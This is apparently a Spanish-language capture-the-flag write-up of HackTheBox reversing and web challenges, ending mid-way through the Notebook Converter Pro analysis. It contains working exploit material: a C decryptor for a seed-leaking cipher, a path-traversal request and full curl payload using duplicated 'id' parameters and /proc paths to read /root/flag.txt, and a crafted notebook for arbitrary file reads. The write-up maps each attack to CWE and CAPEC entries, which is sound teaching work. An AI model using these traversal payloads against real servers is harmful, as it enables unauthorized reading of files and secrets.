

| Bits `[27:24]` | Función        | Operación |
| -------------- | -------------- | --------- |
| `1`            | `FUN_00101322` | `MOV`     |
| `2`            | `FUN_001013e9` | `ADD`     |
| `3`            | `FUN_001014c6` | `SUB`     |
| `4`            | `FUN_001015bd` | `CMP`     |

En `(*apcStack_68[(int)(param_2 >> 0x18)])(param_1, param_2);`

0x18 = 24, entonces el índice de la operación está en los bits [31:24]. Pero los checks del switch en main muestran que solo los bits [27:24] importan (& 0xf000000), así que el nibble alto efectivo es [27:24].






Analizando las sub-funciones se puede extraer el layout completo de un opcode de 32 bits. Por ejemplo en `FUN_001013e9`:

```c
if (((int)param_2 >> 0x14 & 0xfU) != 1)   // bits [23:20]
uVar1 = (int)param_2 >> 0x10 & 0xf;       // bits [19:16]
uVar2 = (int)param_2 >> 0xc  & 0xf;       // bits [15:12]
local_1c = param_2 & 0xfff;               // bits [11:0]
```

Este es el layout completo del opcode:

```
bits [27:24]
bits [23:20] 
bits [19:16]
bits [15:12]
bits [11:0]
```

### Solución

Del main tenemos que:



Hay que asignar a los registros valores para que el estado objetivo tras 5 instrucciones sea:

```
a = 0x200,  b = -1,  c = -1,  d = 0,  flags = 0x10000000
```

Todo parte en cero. Los constraints del `switch` fijan casi completamente cada instrucción, solo hay que rellenar los campos libres para alcanzar el estado objetivo:

| # | Constraint del `switch`              | Instrucción elegida    | Efecto              |
|---|--------------------------------------|------------------------|---------------------|
| 0 | `one=2`, `three=0`                  | `ADD a, 0x100`         | `a = 0x100`         |
| 1 | `one=2`, `five=0x100`              | `ADD a, 0x100`         | `a = 0x200`        |
| 2 | `one=3`, `three=1`                  | `SUB b, 1`             | `b = -1`           |
| 3 | `one=1`, `three=2`, `four=1`                  | `MOV c, b` (irflag=1)  | `c = -1`           |
| 4 | `one=4`, `three=3`                  | `CMP d, 0`             | `flags = 0x10000000` |

---

### Script Python

```python
def encode(one, two, three, four, five):
    return (one << 24) | (two << 20) | (three << 16) | (four << 12) | (five & 0xfff)

instrs = [
    encode(2, 1, 0, 0, 0x100),  # a = 0x100
    encode(2, 1, 0, 0, 0x100),  # a = 0x200
    encode(3, 1, 1, 0, 0x001),  # b = -1
    encode(1, 1, 2, 1, 0x100),  # c = -1 
    encode(4, 1, 3, 0, 0x000),  # flags = 0x10000000
]

bytecode = "".join(f"{i:08x}" for i in instrs)
print(f"Flag: HTB{{{bytecode}}}")
```



Puntos: 30 pts


### Flag

```
Flag: HTB{0210010002100100031100010112110004130000}
```

### Vulnerabilidades

1. Lógica de validación expuesta mediante ingeniería inversa (CWE-656)

La validación del input se implementa íntegramente en el binario del cliente, sin ninguna verificación del lado del servidor ni ofuscación efectiva. CWE-656: Reliance on Security Through Obscurity: la única barrera entre el atacante y la solución es la dificultad de leer el código máquina, no una restricción criptográfica o de diseño. Con una herramienta de análisis estático como Ghidra es posible reconstruir el formato exacto de cada opcode, el estado objetivo de la VM y las restricciones del `switch` sin necesidad de ejecutar el binario.

2. Estado objetivo de la VM hardcodeado en texto plano (CWE-798)

Los valores que el programa compara al final (`0x200`, `-1`, `-1`, `0`, `0x10000000`) están embebidos literalmente en el binario. Esto es una instancia de CWE-798: Use of Hard-coded Credentials (generalizado a secretos de verificación hardcodeados): cualquier atacante que desmonte el binario obtiene los valores objetivo de forma inmediata y puede construir la entrada correcta de manera algorítmica, como se demostró con el script Python.

El patrón de ataque que se siguió para explotar ambas debilidades es CAPEC-188: Reverse Engineering, que describe el proceso de analizar un artefacto compilado para extraer su lógica interna y derivar los inputs que producen el comportamiento deseado. En este caso el análisis de Ghidra permitió reconstruir el ISA de la VM, las restricciones de formato por posición y el estado final esperado, reduciendo el problema a un ejercicio de álgebra sobre campos de bits.

## Challenge 3: Simple Encryptor pts[10]

### 1. Procedimiento seguido (screenshots y explicaciones)

Al descomprimir el archivo del reto se obtienen dos archivos: `encrypt` y `flag.enc`.

```bash
file encrypt
file flag.enc
```



`encrypt` es un binario ELF de 64 bits y `flag.enc` contiene datos binarios. Se infiere que `encrypt` fue usado para cifrar el flag original y el resultado fue almacenado en `flag.enc`.

Se analiza el binario con Ghidra para entender el algoritmo de cifrado. Tras renombrar las variables para mayor legibilidad, el código descompilado es el siguiente:



```c
// 1. Lee el flag original
flagFile = fopen("flag", "rb");
flag = malloc(flagSize);
fread(flag, flagSize, 1, flagFile);

// 2. Genera una semilla basada en el tiempo actual
seed = (uint) time(NULL);
srand(seed);

// 3. Cifra cada byte del flag
for (i = 0; i < flagSize; i++) {
    rnd1 = rand();
    flag[i] = flag[i] ^ (byte)rnd1;   // XOR con número random

    rnd2 = rand() & 7;                 // número random entre 0 y 7
    flag[i] = flag[i] << rnd2 | flag[i] >> (8 - rnd2);  // rotación de bits
}

// 4. Guarda en flag.enc: primero la semilla (4 bytes), luego el flag cifrado
fwrite(&seed, 1, 4, encFlagFile);
fwrite(flag, 1, flagSize, encFlagFile);
```

El algoritmo aplica dos operaciones por cada byte del flag:

1. **XOR** con un número pseudoaleatorio generado por `rand()`
2. **Rotación de bits** a la izquierda por una cantidad pseudoaleatoria entre 0 y 7

El punto crítico es que el programa guarda la semilla usada para inicializar `srand()` en los **primeros 4 bytes de `flag.enc`**. Dado que `rand()` es determinístico (con la misma semilla siempre produce la misma secuencia) es posible reproducir exactamente los mismos números aleatorios que se usaron durante el cifrado.

Para descifrar hay que aplicar las operaciones en **orden inverso**:

1. **Rotación DERECHA** por `rnd2` bits (inverso de la rotación izquierda)
2. **XOR** con `rnd1` (XOR es su propio inverso: `A XOR K XOR K = A`)

Se implementa el exploit en C:

```c
#include <stdio.h>
#include <stdlib.h>

int main(void) {
    typedef unsigned char byte;
    FILE *f;
    size_t flagSize;
    byte *flag;
    unsigned int seed;
    long i;
    int rnd1, rnd2;

    // Leer flag.enc completo
    f = fopen("flag.enc", "rb");
    fseek(f, 0, SEEK_END);
    flagSize = ftell(f);
    fseek(f, 0, SEEK_SET);
    flag = malloc(flagSize);
    fread(flag, 1, flagSize, f);
    fclose(f);

    // Los primeros 4 bytes son la semilla
    memcpy(&seed, flag, 4);
    srand(seed);  // reproducimos exactamente la misma secuencia random

    // Descifrar desde el byte 4 en adelante
    for (i = 4; i < (long)flagSize; i++) {
        rnd1 = rand();
        rnd2 = rand() & 7;

        // Primero revertir la rotación (derecha en vez de izquierda)
        flag[i] = flag[i] >> rnd2 | flag[i] << (8 - rnd2);

        // Luego revertir el XOR
        flag[i] = flag[i] ^ (byte)rnd1;

        printf("%c", flag[i]);
    }

    return 0;
}
```

Se compila y ejecuta:

```bash
gcc exploit.c -o exploit
./exploit
```



Al ejecutarlo se obtiene la bandera.

---

### 2. Lista de herramientas utilizadas

| Herramienta | Propósito |
|---|---|
| `Ghidra` | Análisis estático y decompilación del binario para entender el algoritmo de cifrado |
| `gcc` | Compilación del exploit en C |
| `file` | Identificación del tipo de archivos recibidos |

---

### 3. Debilidad que dio origen a la vulnerabilidad (CWE)

**CWE-338: Use of Cryptographically Weak Pseudo-Random Number Generator (PRNG)**

La vulnerabilidad principal radica en el uso de `rand()` de la librería estándar de C como fuente de aleatoriedad para el cifrado. Esta función no es criptográficamente segura — es completamente determinística dado su valor de semilla. Al conocer la semilla, cualquier atacante puede reproducir la secuencia completa de números generados y revertir el cifrado.

De manera secundaria aplica:

**CWE-321: Use of Hard-coded Cryptographic Key**

La semilla se almacena en texto plano en los primeros 4 bytes del archivo cifrado. Esto equivale a incluir la clave de cifrado junto al texto cifrado, eliminando por completo cualquier garantía de confidencialidad que el esquema pudiera ofrecer.

---

### 4. Patrón de ataque (CAPEC)

**CAPEC-188: Reverse Engineering**

El ataque consiste en analizar el binario `encrypt` con Ghidra para reconstruir el algoritmo de cifrado completo, identificar que la semilla está almacenada en el archivo cifrado, y derivar el proceso inverso matemáticamente. Una vez entendido el algoritmo, la reversión es trivial — no requiere fuerza bruta ni conocimiento previo de la clave.

---

### 5. Bandera

#### La bandera obtenida corresponde a:
```
HTB{vRy_s1MplE_F1LE3nCryp0r}
```

# Web

## Challenge 1: NextPath pts[30]

### 1. Pasos para explotar la vulnerabilidad

Primeramente se obtiene información sobre el reto y se analiza el código
fuente disponible para identificar posibles vectores de ataque.



El servidor expone un endpoint `/api/team?id=<número>` que recibe un
parámetro numérico, construye un path del tipo `team/<id>.png` y devuelve
el archivo correspondiente. Al revisar el código fuente en `team.js` se
identifican las siguientes restricciones:

- El parámetro `id` debe estar presente.
- El valor de `id` debe ser únicamente dígitos (validado con regex `^[0-9]+$`).
- El valor no puede contener `/` ni `.` para prevenir path traversal.
- El path resultante se trunca a un máximo de 100 caracteres.

Dado que el filtro de traversal y el regex solo evalúan el **primer**
parámetro `id`, se identifica que es posible inyectar caracteres CRLF
(`%0A%0D`) dentro del valor para confundir al parser de query strings de
Next.js. Al incluir un segundo parámetro `id` con el path malicioso, el
validador evalúa el primero (`"1"`) mientras el servidor procesa el segundo
para construir el path:

```
/api/team?id=1%0A%0D&id=../../etc/password
```

El cambio en el mensaje de error confirma que el bypass funcionó, el
servidor ya no detecta traversal sino que intenta abrir el archivo,
aunque con el path incorrecto aún.



Para conocer la ubicación exacta de `flag.txt` se inspecciona el contenedor
Docker localmente. Se encuentra que el archivo está en `/root/flag.txt`, sin
embargo al intentar accederlo directamente se obtiene un error de permisos
(`EACCES: permission denied`) ya que el proceso de Node.js no tiene acceso
a ese directorio.




Adicionalmente existe un segundo obstáculo: el servidor agrega `.png` al
final del path construido, por lo que cualquier intento de leer `flag.txt`
resulta en una búsqueda de `flag.txt.png`.

Ambos problemas se resuelven aprovechando el sistema de archivos virtual
`/proc` de Linux. La ruta `/proc/1/task/1/root/` expone el filesystem raíz
del proceso a través de sus symlinks, permitiendo acceder al archivo con
permisos distintos. Al encadenar esta ruta consigo misma varias veces, el
`.png` que agrega el servidor queda absorbido dentro de los segmentos del
path sin romper la resolución del archivo.

El payload final debe además mantenerse dentro del límite de 100 caracteres
una vez construido el path completo con `team/` al inicio. El comando
utilizado es el siguiente:

```bash
curl -v "http://<IP>:<PORT>/api/team?id=1%0A%0D&id=../../../../../../../../../../../../../../../../../proc/1/task/1/root/proc/1/root/proc/1/task/1/root/flag.txt"
```

Al ejecutarlo se obtiene la bandera:



---

### 2. Lista de herramientas utilizadas

| Herramienta | Propósito |
|---|---|
| `curl` | Envío de requests HTTP con el payload de CRLF injection |
| Navegador web | Exploración inicial del endpoint y prueba de restricciones |
| Docker | Inspección local del contenedor para ubicar `flag.txt` |
| Código fuente | Análisis del código `team.js` para entender las restricciones |

---

### 3. Debilidad que dio origen a la vulnerabilidad (CWE)

**CWE-22: Improper Limitation of a Pathname to a Restricted Directory
(Path Traversal)**

La vulnerabilidad principal radica en que el servidor construye un path de
archivo concatenando directamente el input del usuario sin una sanitización
suficiente. Aunque existe un filtro que bloquea `/` y `.`, este solo evalúa
el primer parámetro `id` y puede ser eludido inyectando un segundo parámetro
mediante CRLF injection.

---

### 4. Patrón de ataque (CAPEC)

**CAPEC-126: Path Traversal**

El ataque aprovecha la construcción insegura de paths de archivo para
acceder a recursos fuera del directorio autorizado. Mediante el uso de
secuencias `../` en el segundo parámetro `id`, el atacante navega el árbol
de directorios del servidor hasta alcanzar `/root/flag.txt`, un archivo que
el flujo normal de la aplicación nunca expone.

---

### 5. Bandera

#### La bandera obtenido corresponde a: 
```
HTB{tr4v3r51ng_p45t_411_th3_ch3ck5...t4sk_w3ll_d0ne!}
```
## Challenge 2: Notebook Converter Pro pts[20]

**Descripción del reto en HTB:** "Welcome to NotebookConverter Pro, a tool for converting Jupyter notebooks into different formats with ease. While it appears simple and efficient, there may be more happening behind the scenes than meets the eye."

### Herramientas Utilizadas

- Burp Suite Community
- curl
- python 3
- sqlite3

### 1. Reconocimiento

Al iniciar el target e ingresar la URL se presenta una pantalla de login con un formulario de registro. Se registra un usuario de prueba y se inicia sesión para explorar la superficie de ataque.

Con sesión activa se accede al dashboard. La interfaz es minimalista: un formulario para subir un archivo `.ipynb` y elegir entre `html` y `markdown` como formato de salida. En la barra de navegación no hay enlace a ninguna zona de administración, aunque el rol `admin` podría existir dado que la aplicación distingue entre tipos de usuario.

Se configura Burp Suite como proxy (154.57.164.76:32302) y se navega por toda la aplicación. En se identifican todos los endpoints:


| Método | Endpoint | Notas |
|---|---|---|
| GET / POST | `/` | Login |
| POST | `/register` | Registro |
| GET | `/logout` | Cierre de sesión |
| GET | `/dashboard` | Requiere sesión |
| POST | `/convert` | Subida del notebook |
| GET | `/jobs/<job_id>` | Detalle del job |
| GET | `/jobs/<job_id>/download` | Descarga del resultado |
| GET / POST | `/admin` | Panel admin — devuelve 403 con usuario regular |

Al intentar acceder a `/admin` con el usuario registrado se recibe un **403 Forbidden**, lo que confirma que existe una zona restringida por rol.


Se sube un notebook `.ipynb` legítimo y se intercepta el request. El `POST /convert` es un `multipart/form-data` con dos campos: el archivo y el formato de salida.

```
POST /convert HTTP/1.1
Host: <target>
Cookie: session=<token>
Content-Type: multipart/form-data; boundary=...

...
Content-Disposition: form-data; name="notebook"; filename="test.ipynb"
...contenido del notebook...
...
Content-Disposition: form-data; name="format"

html
...
```


La respuesta es un **302** hacia `/jobs/<job_id>`. Desde ahí se puede descargar el resultado procesado. Entonces el server aceptó el notebook enviado y creó una tarea de procesamiento identificada por un job_id, redirigiendo al usuario a la ruta /jobs/342101d274ff, donde posteriormente puede consultarse o descargarse el resultado generado. El hecho de que la conversión se complete exitosamente, sin errores de validación ni restricciones visibles, puede ser que el servidor analiza y procesa activamente el contenido interno del notebook. Dado que el resultado final depende de lo que contiene el archivo enviado,  es posible que el backend ejecuta o interpreta parte de dicho contenido durante el proceso de conversión. Tal vez, si el notebook incluye referencias a recursos locales o rutas del sistema de archivos, estas podrían ser procesadas por el servidor y reflejarse en la salida generada, lo que justificaría realizar pruebas adicionales para evaluar el alcance de ese acceso.

#### 1.1 Path traversal en referencias de imagen

Los notebooks de Jupyter soportan Markdown, y en Markdown las imágenes se insertan con ``. Si el servidor no valida esas rutas al generar el HTML, podría leer archivos arbitrarios del sistema de archivos.

Se puede construir un notebook mínimo a mano apuntando a una alguna direccion:

```bash
cat > test_traversal.ipynb << 'EOF'
{
  "cells": [{
    "cell_type": "markdown",
    "metadata": {},
    "source": [""]
  }],
  "metadata": {
    "kernelspec": {"display_name": "Python 3", "language": "python", "name": "python3"},
    "language_info": {"name": "python", "version": "3.11.0"}
  },
  "nbformat": 4,
  "nbformat_minor": 4
}
EOF
```

### 2. Análisis del Código Fuente

Descargando el codigo fuente desde HTB, se analiza el código fuente para entender el mecanismo exacto, identificar qué archivos robar y descubrir si existe otra vulnerabilidad.

#### 2.1 Por qué funciona el AFR `convert_job.py`

```python
def convert_html(input_path, output_dir):
    exporter = nbconvert.HTMLExporter()
    exporter.embed_images = True   
    body, _resources = exporter.from_filename(str(input_path))
    ...
```

Con `embed_images = True`, `nbconvert` resuelve cada referencia `` del notebook, ergo, lee el archivo desde el sistema de archivos de forma literal y lo incrusta como `data:...;base64,...` en el HTML. No hay ninguna validación de ruta, por ejemplo: `../../../../`.

#### 2.2 Qué archivo robar `db.py`

```python
DB_PATH = DATA_DIR / "app.db"

admin_password = secrets.token_urlsafe(14)
